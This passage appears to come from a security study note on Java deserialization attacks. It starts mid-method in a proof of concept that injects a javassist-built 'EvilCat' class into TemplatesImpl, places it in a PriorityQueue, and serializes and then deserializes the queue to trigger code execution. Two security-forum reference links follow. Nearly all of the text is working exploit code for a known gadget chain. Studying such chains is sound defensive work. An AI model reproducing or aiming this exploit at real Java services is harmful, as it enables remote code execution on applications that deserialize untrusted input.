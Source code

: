 ```java
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
//        cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");

        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = 1;
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./ycc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./ycc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
}

```
## 参考链接
[https://xz.aliyun.com/t/8164](https://xz.aliyun.com/t/8164)

[https://xz.aliyun.com/t/10387](https://xz.aliyun.com/t/10387)

